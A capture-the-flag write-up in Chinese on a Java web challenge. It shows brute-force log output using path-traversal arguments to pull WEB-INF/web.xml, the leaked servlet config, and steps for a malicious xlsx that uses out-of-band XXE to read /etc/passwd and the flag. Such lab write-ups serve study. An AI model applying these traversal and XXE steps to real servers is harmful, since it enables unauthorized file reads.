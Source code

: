 tags:: [[CTF/JAVA]]

- # 过程
	- 爆破下载接口
		- ```python
		  0it [00:00, ?it/s]INFO:root:[Auto Burst] Get: 137 Arg: .git
		  118it [00:11,  8.64it/s]INFO:root:[Auto Burst] Get: 1207 Arg: ../../../../WEB-INF/web.xml
		  128it [00:12,  9.79it/s]INFO:root:[Auto Burst] Get: -500 Arg: ../../../../WEB-INF/classes
		  528it [00:54,  8.91it/s]INFO:root:[Auto Burst] Get: 129 Arg: flag
		  1140it [01:58,  9.59it/s]
		  ```
	- 查看web.xml
		- ```xml
		  <web-app xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd" version="4.0">
		  <servlet>
		  <servlet-name>DownloadServlet</servlet-name>
		  <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
		  </servlet>
		  <servlet-mapping>
		  <servlet-name>DownloadServlet</servlet-name>
		  <url-pattern>/DownloadServlet</url-pattern>
		  </servlet-mapping>
		  <servlet>
		  <servlet-name>ListFileServlet</servlet-name>
		  <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
		  </servlet>
		  <servlet-mapping>
		  <servlet-name>ListFileServlet</servlet-name>
		  <url-pattern>/ListFileServlet</url-pattern>
		  </servlet-mapping>
		  <servlet>
		  <servlet-name>UploadServlet</servlet-name>
		  <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
		  </servlet>
		  <servlet-mapping>
		  <servlet-name>UploadServlet</servlet-name>
		  <url-pattern>/UploadServlet</url-pattern>
		  </servlet-mapping>
		  </web-app>
		  ```
	- 下载并反编译class文件，看到`cn.abc.servlet.UploadServlet`会读取以excel开头的xls文件
	  id:: 643172ce-5398-4e55-bee1-2e99a54ba9a3
	- 准备一个恶意xlsx文件：修改后缀为zip并解压一个xlsx文件，修改里面的xml文件，再压缩
	- 这里使用[OOB](((64301d45-52ef-4288-a4f1-f268848799a7)))来读取文件
		- `file:///`失败，无法读取文件夹
		- `/etc/passwd`失败，应该是无法读取多行文件
		- `file:///etc/passwd`失败
		- `flag`失败
		- `./flag`失败
		- `file://./flag`失败
		- `file:///flag`成功
	-
	-